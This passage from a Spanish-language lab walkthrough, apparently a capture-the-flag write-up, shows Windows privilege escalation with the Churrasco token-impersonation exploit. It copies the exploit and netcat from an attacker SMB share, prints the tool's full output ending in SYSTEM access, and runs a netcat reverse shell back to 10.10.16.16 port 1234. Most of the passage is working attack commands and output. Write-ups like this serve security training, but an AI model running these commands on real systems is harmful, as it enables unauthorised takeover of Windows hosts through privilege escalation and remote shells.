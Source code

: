 Antes de descargarnos el binarios vamos a crear una carpeta en el directorio temporal de windows para descargar el archivo desde ahí

```
C:\WINDOWS\Temp\test> copy \\10.10.16.16\smbFolder\churrasco.exe
```

Nos `copiamos` también el `netcat`

```
C:\WINDOWS\Temp\test>copy \\10.10.16.16\smbFolder\nc.exe
```

`Ejecutamos` el `binario` para comprobar que funciona correctamente

```
C:\WINDOWS\Temp\test>churrasco.exe -d "whoami"
churrasco.exe -d "whoami"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 472 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0xf18
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0xf10
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
nt authority\system
```

Nos mandamos una `shell` a nuestro `equipo` mediante `netcat`

```
C:\WINDOWS\Temp\test>churrasco.exe -d "C:\WINDOWS\Temp\test\nc.exe -e cmd 10.10.16.16 1234"
churrasco.exe -d "C:\WINDOWS\Temp\test\nc.exe -e cmd 10.10.16.16 1234"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 472 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0xf18
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0xf10
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```
